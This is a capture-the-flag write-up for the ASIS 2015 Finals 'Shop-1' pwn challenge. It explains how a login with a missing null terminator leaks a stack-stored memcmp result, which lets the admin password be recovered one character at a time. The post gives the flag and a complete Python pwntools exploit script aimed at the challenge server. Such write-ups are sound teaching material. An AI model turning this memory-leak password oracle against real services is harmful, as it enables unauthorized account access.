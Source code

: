 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn100) Shop-1"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The main vulnerability for getting the admin password is that if you send in a maximum length username (32 bytes) and password (64 bytes) then no string terminating null character was written. Also, usernames and passwords were checked with memcpy and exact length instead of strcpy.

As the program prints out the logged in username this leads to leaking out the next value in the stack: the memcmp result of the admin password.

{% highlight c %}
char username[32]; // [sp+20h] [bp-70h]@3
char password[64]; // [sp+40h] [bp-50h]@3
int memcmpResult; // [sp+80h] [bp-10h]@5
{% endhighlight %}

So the attack was basically: 
 - try to login with admin and the password you leaked so far (empty at first) plus "~" (0x7e)
    - although this will lead to failed login, the memcpy result won't be cleared
    - I am using 0x7e because it is the last readable ASCII character and comparison with password will give smaller results
 - try to login with username "guest" + "A"*(32-5) and password "guest" + "A"*(64-5)
 - read the leaked value, this will be the positive difference between "~" and the next character from the password
 - logout and try again, until you found the password and can login as admin :)
 
The admin password (=flag):
{% highlight text %}
ASIS{304b0f16eb430391c6c86ab0f3294211}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = ""
foundPass = False

r = remote('185.106.120.220', 1337)

def getResult(currPass):
    global foundPass
    r.recvuntil("Username:")
    password = "guest"+"A"*(64-5)
    r.send("admin\n"+currPass+"\nguest"+"A"*(32-5)+"\n"+password+"\n8\n")
    if not "Unknown username" in r.recvline():
        foundPass = True
        return "x"

    r.recvuntil("in as guest")
    result = r.recvline()[:-1].split(password)[1]
    return result

chars = [chr(x) for x in xrange(32,127)]
print "Chars = %s" % chars

for i in xrange(45):
    result = getResult(adminPass + "~")
    if foundPass:
        break
    nextChar = chr(ord("~") - ord(result[0]))
    adminPass += nextChar
    print "found char = %s => %s (calc)" % (nextChar, adminPass)

if foundPass:
    print "Admin password = %s" % adminPass
else:
    print "Admin password not found :("
{% endhighlight %}